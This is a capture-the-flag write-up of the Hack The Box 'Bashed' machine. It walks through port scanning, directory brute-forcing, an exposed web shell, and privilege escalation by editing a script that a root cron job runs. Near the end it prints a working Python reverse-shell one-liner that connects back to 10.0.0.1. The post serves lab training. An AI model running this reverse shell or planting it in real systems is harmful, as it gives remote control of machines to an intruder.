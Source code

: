 ```yaml
---
title:     "Hack The Box - Bashed"
tags: [linux,easy,sudo,cron]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/1.png)

We are going to pwn Bashed from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/118>


Like always begin with our Nmap Scan.

## Nmap Scan Results:
```
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/2.png)

Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/06 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/06 00:29:21 Finished
===============================================================
```

While checking the ``/dev`` there is an ``phpbash.php``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/3.png)

Found 2 users ``arrexel and scriptmanager`` and got user flag too.

Now its time to get reverse shell to expore more

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/4.png)
Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/5.png)

## Privilege Escalation:

Like always I started with ``sudo -l``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/6.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/7.png)

Now time to get root, I uploaded my Linux Enumeration Script and found some writeable scripts available. 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/8.png)

May be cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

My guess is correct! 

```
2019/12/04 07:46:01 CMD: UID=0    PID=2297   | python test.py

2019/12/04 07:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```
I edited the script
 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/9.png)

`` python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ``

Started my listener on my machine

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bashed/10.png)

I got Root!
